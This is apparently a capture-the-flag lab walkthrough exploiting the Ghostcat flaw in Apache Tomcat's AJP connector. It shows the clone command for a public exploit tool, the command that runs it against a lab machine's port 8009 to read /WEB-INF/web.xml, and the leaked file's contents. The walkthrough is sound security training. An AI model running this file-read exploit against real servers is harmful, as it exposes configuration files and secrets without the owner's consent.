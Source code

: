 
# Gathering Resources

## Download Exploit:

[AJP Shooter](https://github.com/00theway/Ghostcat-CNVD-2020-10487)

Clone the repo:

```
$ git clone https://github.com/00theway/Ghostcat-CNVD-2020-10487.git
```

# Exploitation


Port: 8009

Service: ajp13

Goto the directory where the repo was cloned and run the following command:

```
$ python3 ajpShooter.py http://<thm-machine-ip>:8080 8009 /WEB-INF/web.xml read
```

You'll get the following output:

```
       _    _         __ _                 _            
      /_\  (_)_ __   / _\ |__   ___   ___ | |_ ___ _ __ 
     //_\\ | | '_ \  \ \| '_ \ / _ \ / _ \| __/ _ \ '__|
    /  _  \| | |_) | _\ \ | | | (_) | (_) | ||  __/ |   
    \_/ \_// | .__/  \__/_| |_|\___/ \___/ \__\___|_|   
         |__/|_|                                        
                                                00theway,just for test
    

[<] 200 200
[<] Accept-Ranges: bytes
[<] ETag: W/"1261-1583902632000"
[<] Last-Modified: Wed, 11 Mar 2020 04:57:12 GMT
[<] Content-Type: application/xml
[<] Content-Length: 1261

<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
```